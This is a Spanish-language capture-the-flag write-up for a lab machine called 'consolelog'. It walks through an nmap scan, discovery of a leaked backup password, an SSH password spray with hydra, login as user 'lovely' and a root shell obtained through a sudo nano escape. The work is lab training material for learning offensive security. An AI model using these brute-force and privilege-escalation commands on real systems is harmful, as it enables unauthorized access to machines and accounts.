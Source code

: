 ```yaml
---
Maquina: consolelog
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - fuerza_bruta
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241104110701.png]]

Curiosa esta máquina, hay puertos abiertos no muy comunes.. Vamos primero a echar un ojo al puerto más común y con seguramente menos vulnerabilidades, el puerto 80.

![[Pasted image 20241104110820.png]]

No parece haber mucha información, ni siquiera en el código fuente. Pero por si acaso voy a realizar una búsqueda de subdirectorios.

![[Pasted image 20241104111007.png]]

Curioso documento... me hace sospechar lo de "lapassworddebackupmaschingonadetodas", sinceramente mucha confianza no me da.

Investigando un poco más he dado con lo siguiente, pero ya sabemos a que hace referencia.

![[Pasted image 20241104112234.png]]

Vamos a probar a hacer fuerza bruta al SSH con la passwd "lapassworddebackupmaschingonadetodas" a ver si así podemos intentar acceder

```bash
hydra -L ~/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2 -t 16 -s 5000
```

Y parece ser que funciona ->

![[Pasted image 20241104112610.png]]

Pues vamos a probar a conectarnos.

```bash
ssh 172.17.0.2 -p 5000 -l lovely
```

![[Pasted image 20241104112742.png]]

Estamos dentro y con el usuario lovely. Ahora vamos a ver los permisos que tiene este usuario.

![[Pasted image 20241104112822.png]]

Pues vamos a ver si se puede escalar privs con nano.

![[Pasted image 20241104113032.png]]

Parece que si que podemos escalar privs... Estos son los pasos realizados:

```bash
sudo nano
^R^X #Esto es con la tecla ctrl + la letra
reset; sh 1>&0 2>&0 #Importante ejecutar todo el comando en la misma linea
```

Y listo otra máquina para la colección ;).




